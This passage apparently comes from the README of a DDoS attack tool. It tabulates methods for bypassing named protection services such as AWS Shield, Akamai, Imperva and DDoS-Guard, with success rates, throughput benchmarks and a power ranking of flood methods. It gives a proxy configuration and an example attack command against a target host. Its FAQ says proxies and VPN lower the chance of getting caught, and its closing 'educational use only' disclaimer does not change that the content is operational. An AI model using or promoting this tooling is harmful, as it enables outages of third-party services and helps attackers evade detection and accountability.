| **DDoS-Guard** | DGB | 90% | ⭐⭐⭐⭐⭐ |
| **AWS Shield** | BYPASS, RHEX | 85% | ⭐⭐⭐ |
| **Akamai** | DYN, STOMP | 80% | ⭐⭐⭐⭐ |
| **Imperva** | BOT, BOMB | 88% | ⭐⭐⭐ |
| **Sucuri** | XMLRPC, APACHE | 82% | ⭐⭐ |
| **Wordfence** | NULL, COOKIE | 78% | ⭐⭐ |
| **Rate Limiting** | PPS, GSB | 92% | ⭐⭐⭐⭐ |
| **Geo-Blocking** | TOR, Proxy | 95% | ⭐⭐ |

---

## 📊 PERFORMANCE BENCHMARKS

| Hardware Config | Threads | PPS | BPS | Best Method |
|-----------------|---------|-----|-----|-------------|
| 4 Core, 8GB RAM | 500 | 45K | 12 MB/s | GET |
| 8 Core, 16GB RAM | 1000 | 95K | 25 MB/s | STOMP |
| 16 Core, 32GB RAM | 1000 | 112K | 30 MB/s | STOMP |
| VPS (4 vCPU) | 300 | 35K | 9 MB/s | CFB |
| VPS (8 vCPU) | 800 | 75K | 20 MB/s | CFB |

---

## 📊 METHOD POWER RANKING

| Method | Power | Speed | Stealth | Bypass | Overall |
|--------|-------|-------|---------|--------|---------|
| **STOMP** | ██████ | ███████ | █████ | ██████ | 🏆 SSS |
| **CFBUAM** | ██████ | █████ | ██████ | ███████ | 💎 SS |
| **BOMB** | ██████ | ███████ | ████ | █████ | ⭐ S |
| **MCBOT** | █████ | ████ | ███████ | █████ | ⭐ S |
| **DGB** | █████ | █████ | ██████ | ███████ | ⭐ S |
| **OVH-UDP** | ██████ | ██████ | ████ | ████ | 🔥 A |
| **SYN** | █████ | ███████ | ███ | ███ | 🔥 A |
| **KILLER** | ██████ | ████ | ██ | ██ | 🔥 A |


config.json
json
{
  "proxy-providers": [
    {
      "url": "https://api.proxyscrape.com/v2/?request=getproxies&protocol=http",
      "type": 1,
      "timeout": 30
    },
    {
      "url": "https://www.proxy-list.download/api/v1/get?type=socks5",
      "type": 5,
      "timeout": 30
    }
  ],
  "MCBOT": "WEB_KILLER_",
  "MINECRAFT_DEFAULT_PROTOCOL": 754
}


<details> <summary><b>🔴 ModuleNotFoundError</b></summary>
pip install --upgrade pip
pip install -r requirements.txt
</details><details> <summary><b>🔴 Permission Denied (RAW sockets)</b></summary>
 Windows: Run CMD as Administrator
 Linux/Mac: sudo python3 run.py ...
</details><details> <summary><b>🔴 Low Performance</b></summary>

 Increase threads, use better proxies, close other apps
python run.py GET target.com 5 1000 premium.txt 100 60
</details>

<details> <summary><b>Is this free?</b></summary> Yes! Completely free and open-source under MIT license. </details><details> <summary><b>Can I use it on Windows?</b></summary> Yes! Fully supported on Windows 10/11. </details><details> <summary><b>Will I get caught?</b></summary> Using proxies + VPN significantly reduces detection risk. </details><details> <summary><b>How many targets at once?</b></summary> Run multiple terminal instances for unlimited targets. </details>


## ⚠️ EDUCATIONAL USE ONLY - NO WARRANTY - USE AT YOUR OWN RISK ⚠️
